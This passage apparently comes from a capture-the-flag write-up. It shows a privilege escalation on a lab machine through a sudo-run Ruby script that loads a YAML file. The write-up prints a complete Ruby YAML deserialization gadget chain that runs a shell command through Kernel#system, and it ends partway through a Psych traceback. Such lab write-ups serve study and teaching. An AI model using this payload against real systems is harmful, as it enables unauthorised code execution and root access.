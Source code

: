 They could run the script I found earlier. I looked back at the code. I looked at dependencies in a local file. Then looked at the installed Gem and compare the version between what was requested and the installed one.

I looked for possible vulnerabilities in the YAML parser, or in the Gem parsing. I found a post that showed how to get [code execution in YAML parsing](https://bishopfox.com/blog/ruby-vulnerabilities-exploits).


I started with the code in the post. 

```bash
henry@precious:~$ cat dependencies.yml
:payload:
- !ruby/class 'Gem::SpecFetcher'
- !ruby/class 'Gem::Installer'
- !ruby/object:Gem::Requirement
  requirements: !ruby/object:Gem::Package::TarReader
    io: !ruby/object:Net::BufferedIO
      io: !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: aaa
      debug_output: !ruby/object:Net::WriteAdapter
        socket: !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: date >> /tmp/rce9b.txt
        method_id: :resolve
```

I ran the script and saw that it worked.

```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
        41: from /opt/update_dependencies.rb:17:in `<main>'
        40: from /opt/update_dependencies.rb:10:in `list_from_file'
        39: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        38: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        37: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        36: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        35: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        34: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        33: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        32: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        31: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        30: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:162:in `visit_Psych_Nodes_Mapping'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:338:in `revive_hash'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:338:in `each_slice'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:338:in `each'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:340:in `block in revive_hash'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
```